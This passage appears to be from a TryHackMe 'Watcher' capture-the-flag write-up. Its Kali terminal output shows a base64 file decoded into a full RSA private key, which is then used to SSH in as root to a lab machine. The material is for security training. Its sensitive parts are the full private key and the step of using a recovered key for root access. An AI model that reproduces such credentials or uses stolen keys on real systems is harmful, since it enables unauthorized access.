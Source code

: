 ```bash

┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41/keys]
└─$ cat key | base64 -d
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----

```

## Got ssh

```bash

┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41/keys]
└─$ chmod 600 id_rsa 
                                                                      
┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41/keys]
└─$ ssh -i id_rsa root@$ip
ssh: Could not resolve hostname : Name or service not known
                                                                      
┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41/keys]
└─$ ssh -i id_rsa root@10.10.65.41
The authenticity of host '10.10.65.41 (10.10.65.41)' can't be established.
ED25519 key fingerprint is SHA256:/60sf9gTocupkmAaJjtQJTxW1ZnolBZckE6KpPiQi5s.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.41' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 15 15:35:52 UTC 2024

  System load:  0.0                Processes:             117
  Usage of /:   22.5% of 18.57GB   Users logged in:       0
  Memory usage: 50%                IP address for eth0:   10.10.65.41
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1
```
